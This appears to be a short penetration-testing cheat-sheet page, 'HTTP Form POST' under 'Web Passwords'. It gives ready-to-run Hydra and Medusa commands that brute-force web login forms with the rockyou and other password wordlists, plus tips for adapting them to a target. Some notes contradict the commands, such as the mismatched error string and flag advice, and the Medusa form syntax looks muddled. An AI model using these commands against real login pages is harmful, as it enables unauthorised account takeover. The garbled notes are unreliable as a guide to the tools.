```yaml
---
title: HTTP Form POST
parent: Web Passwords
layout: default
nav_order: 1
---
```


1. Hydra:\
   `hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/seclists/rockyou.txt -vV -f`
   (change the user and pass parameter where appropriate. INVALID LOGON is the error message after incorrect password)
2. Medusa:\
   `medusa -h example.com -U usernames.txt -P passwords.txt -M http -m FORM:/login.php:username_field=password_field -t 5`\
   (Suitable for form login. Replace -u with -U if have wordlist. dir with the directory path to crack.)